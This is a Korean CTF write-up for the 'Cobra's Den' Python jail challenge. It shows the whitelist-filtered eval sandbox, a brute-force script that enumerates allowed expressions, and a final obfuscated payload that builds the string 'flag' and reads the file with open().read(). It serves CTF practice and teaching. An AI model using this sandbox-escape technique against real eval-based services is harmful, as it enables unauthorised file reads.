

# Cobra's Den (50 Points)

코드 자체는 아래와 같이 간다하다.
```python
# flag stored at 'flag' in current dir

import builtins

all_builtins = dir(builtins)
filtered_builtins = {name: getattr(builtins, name) for name in all_builtins if len(name) <= 4}
filtered_builtins.update({'print': print})
print(filtered_builtins)
whitelist = "<ph[(cobras.den)]+~"
security_check = lambda s: any(c not in whitelist for c in s) or len(s) > 1115 or s.count('.') > 1

print('Good luck!')
while True:
    cmd = input("Input: ")
    if security_check(cmd):
        print("No dice!")
    else:
        try:
            eval(f"print({cmd})", {"__builtins__": filtered_builtins})
        except SyntaxError as e:
            print(f"Syntax error: {e}")
        except Exception as e:
            print(f"An error occurred: {e}")
```

정리하면  `whitelist = "<ph[(cobras.den)]+~"`만 만족하는 1115 길이의 문자열을 만들어 `eval`함수에서 실행 가능하도록 `cmd`를 만들어주면 된다.

여기서 생각할 수 있는 것이 `whitelist`에 들어가는 문자열이 많지 않아서 간단하게 아래의 코드를 통해서 가능한 문자열 리스트를 뽑을 수 있다.
```python
import itertools

str_ = "<ph[(cobras.den)]+~"
cmd_list = [''.join(i) for i in list(itertools.product(str_, repeat=6))]

import builtins

all_builtins = dir(builtins)
filtered_builtins = {name: getattr(builtins, name) for name in all_builtins if len(name) <= 4}
filtered_builtins.update({'print': print})
f = open("cmd_list.txt", "a")
for cmd in cmd_list:
    try:
        eval(f"print({cmd})", {"__builtins__": filtered_builtins})
        f.write(cmd+"\n")
    except:
        continue
f.close()
```
여기서 추출되는 문자열은 아래와 같다
```python
[]
()
chr
ord
abs
...
hash
[[]]
[()]
([])
(())
open
repr
)or(
[chr]
[ord]
[abs]
[...]
[]<[]
[]+[]
(chr)
(ord)
(abs)
(...)
()<()
()+()
)and(


list
tuple
...
```
open, read, chr, ord등 필요한 함수를 확인할 수 있다.
()<()는 False가 나오고 ~False는 -1이 나오니 이를 적절하게 섞어서 payload를 만들어준다.
```python
open(repr(hash)[abs(~(()<())+~(()<())+~(()<())+~(()<())+~(()<())+~(()<())+~(()<())+~(()<())+~(()<())+~(()<()))]+repr(hash)[abs(~(()<())+~(()<())+~(()<())+~(()<()))]+repr(hash)[~(()<())+~(()<())+~(()<())+~(()<())]+chr(ord(repr(hash)[abs(~(()<()))])+abs(~(()<())+~(()<())+~(()<())+~(()<())+~(()<())))).read()
```
